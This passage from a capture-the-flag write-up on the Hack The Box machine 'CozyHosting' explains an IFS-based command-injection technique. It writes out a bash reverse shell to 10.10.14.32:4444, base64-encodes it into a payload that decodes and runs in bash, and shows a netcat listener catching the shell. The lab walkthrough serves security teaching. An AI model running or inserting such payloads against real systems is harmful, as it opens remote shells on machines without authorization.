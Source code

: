 First we will convert the payload to `base64` format -

```bash
Payload - echo 'sh -i >& /dev/tcp/10.10.14.32/4444 0>&1' | base64
```

Once we get the `base64` encoded text, we will make the main payload as - 

The `Internal Field Separator (IFS)` is an important concept in Unix-like operating systems, especially when working with shell scripting and text processing. It's an environment variable that defines the delimiter used to split text strings into fields. The default value for the IFS is typically a space, tab, and newline character, but you can customize it to use different delimiters as needed.

```bash
Payload - ;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzIvNDQ0NCAwPiYxCg=="|
          base64${IFS}-d|bash;
```

Before using this payload, let's start the netcat listener on port `4444`.

![Setting up listener](/assets/images/writeups/CozyHosting-HTB/9.png)

As we observed that the payload is executed, but it is taking time to receive a response from the server. In the meantime, let's check our listener to see if we have received a shell or not.

![Got shell](/assets/images/writeups/CozyHosting-HTB/10.png)
